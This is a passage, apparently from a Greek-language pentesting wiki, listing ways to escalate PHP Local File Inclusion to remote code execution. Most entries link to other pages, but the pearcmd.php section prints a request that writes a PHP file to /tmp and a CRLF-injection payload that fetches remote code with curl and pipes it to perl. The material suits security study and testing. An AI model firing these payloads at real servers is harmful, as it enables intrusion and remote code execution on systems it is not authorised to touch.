 {{#ref}}
lfi2rce-via-php-filters.md
{{#endref}}

### Via segmentation fault

**Ανεβάστε** ένα αρχείο που θα αποθηκευτεί ως **προσωρινό** στο `/tmp`, στη συνέχεια στην **ίδια αίτηση,** προκαλέστε ένα **segmentation fault**, και τότε το **προσωρινό αρχείο δεν θα διαγραφεί** και μπορείτε να το αναζητήσετε.

{{#ref}}
lfi2rce-via-segmentation-fault.md
{{#endref}}

### Via Nginx temp file storage

Αν βρείτε μια **Local File Inclusion** και το **Nginx** τρέχει μπροστά από το PHP, μπορεί να μπορέσετε να αποκτήσετε RCE με την παρακάτω τεχνική:

{{#ref}}
lfi2rce-via-nginx-temp-files.md
{{#endref}}

### Via PHP_SESSION_UPLOAD_PROGRESS

Αν βρείτε μια **Local File Inclusion** ακόμα και αν **δεν έχετε συνεδρία** και το `session.auto_start` είναι `Off`. Αν παρέχετε το **`PHP_SESSION_UPLOAD_PROGRESS`** στα **multipart POST** δεδομένα, το PHP θα **ενεργοποιήσει τη συνεδρία για εσάς**. Μπορείτε να το εκμεταλλευτείτε αυτό για να αποκτήσετε RCE:

{{#ref}}
via-php_session_upload_progress.md
{{#endref}}

### Via temp file uploads in Windows

Αν βρείτε μια **Local File Inclusion** και ο διακομιστής τρέχει σε **Windows** μπορεί να αποκτήσετε RCE:

{{#ref}}
lfi2rce-via-temp-file-uploads.md
{{#endref}}

### Via `pearcmd.php` + URL args

Όπως [**εξηγείται σε αυτή την ανάρτηση**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), το σενάριο `/usr/local/lib/phppearcmd.php` υπάρχει από προεπιλογή σε εικόνες docker php. Επιπλέον, είναι δυνατόν να περάσετε παραμέτρους στο σενάριο μέσω της διεύθυνσης URL, καθώς αναφέρεται ότι αν μια παράμετρος URL δεν έχει `=`, θα πρέπει να χρησιμοποιηθεί ως παράμετρος.

Η παρακάτω αίτηση δημιουργεί ένα αρχείο στο `/tmp/hello.php` με το περιεχόμενο `<?=phpinfo()?>`:
```bash
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
```
Η παρακάτω εκμεταλλεύεται μια ευπάθεια CRLF για να αποκτήσει RCE (από [**εδώ**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)):
```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```
### Μέσω phpinfo() (file_uploads = on)
